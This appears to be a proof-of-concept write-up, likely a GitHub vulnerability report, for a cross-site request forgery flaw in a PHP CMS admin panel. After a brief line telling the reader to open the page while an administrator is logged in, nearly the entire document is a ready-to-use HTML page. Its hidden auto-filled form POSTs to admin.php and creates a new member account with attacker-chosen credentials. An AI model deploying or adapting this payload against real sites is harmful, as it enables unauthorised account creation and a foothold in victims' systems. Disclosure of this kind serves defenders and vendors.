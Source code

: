 After the administrator logged in, open the following page

`
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.33.62.73:8080/admin.php?" method="POST">
      <input type="hidden" name="moduleid" value="2" />
      <input type="hidden" name="file" value="index" />
      <input type="hidden" name="action" value="add" />
      <input type="hidden" name="post&#91;regid&#93;" value="5" />
      <input type="hidden" name="post&#91;username&#93;" value="1234567" />
      <input type="hidden" name="post&#91;passport&#93;" value="" />
      <input type="hidden" name="post&#91;password&#93;" value="qwe123" />
      <input type="hidden" name="post&#91;cpassword&#93;" value="qwe123" />
      <input type="hidden" name="post&#91;email&#93;" value="123111&#64;123&#46;com" />
      <input type="hidden" name="post&#91;truename&#93;" value="1111" />
      <input type="hidden" name="post&#91;gender&#93;" value="1" />
      <input type="hidden" name="post&#91;areaid&#93;" value="1" />
      <input type="hidden" name="post&#91;department&#93;" value="" />
      <input type="hidden" name="post&#91;career&#93;" value="" />
      <input type="hidden" name="post&#91;mobile&#93;" value="" />
      <input type="hidden" name="post&#91;qq&#93;" value="" />
      <input type="hidden" name="post&#91;wx&#93;" value="" />
      <input type="hidden" name="post&#91;wxqr&#93;" value="" />
      <input type="hidden" name="post&#91;ali&#93;" value="" />
      <input type="hidden" name="post&#91;company&#93;" value="" />
      <input type="hidden" name="post&#91;type&#93;" value="" />
      <input type="hidden" name="post&#91;thumb&#93;" value="" />
      <input type="hidden" name="post&#91;catid&#93;" value="" />
      <input type="hidden" name="post&#91;business&#93;" value="" />
      <input type="hidden" name="post&#91;size&#93;" value="" />
      <input type="hidden" name="post&#91;regunit&#93;" value="äººæ&#176;&#145;å&#184;&#129;" />
      <input type="hidden" name="post&#91;capital&#93;" value="" />
      <input type="hidden" name="post&#91;regyear&#93;" value="" />
      <input type="hidden" name="post&#91;address&#93;" value="" />
      <input type="hidden" name="post&#91;postcode&#93;" value="" />
      <input type="hidden" name="post&#91;telephone&#93;" value="" />
      <input type="hidden" name="post&#91;fax&#93;" value="" />
      <input type="hidden" name="post&#91;mail&#93;" value="" />
      <input type="hidden" name="post&#91;homepage&#93;" value="" />
      <input type="hidden" name="post&#91;gzh&#93;" value="" />
      <input type="hidden" name="post&#91;gzhqr&#93;" value="" />
      <input type="hidden" name="post&#91;sell&#93;" value="" />
      <input type="hidden" name="post&#91;buy&#93;" value="" />
      <input type="hidden" name="post&#91;content&#93;" value="&lt;br&#32;type&#61;&quot;&#95;moz&quot;&#32;&#47;&gt;" />
      <input type="hidden" name="post&#91;edittime&#93;" value="1" />
      <input type="hidden" name="submit" value="ç&#161;&#174;&#32;å&#174;&#154;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
`
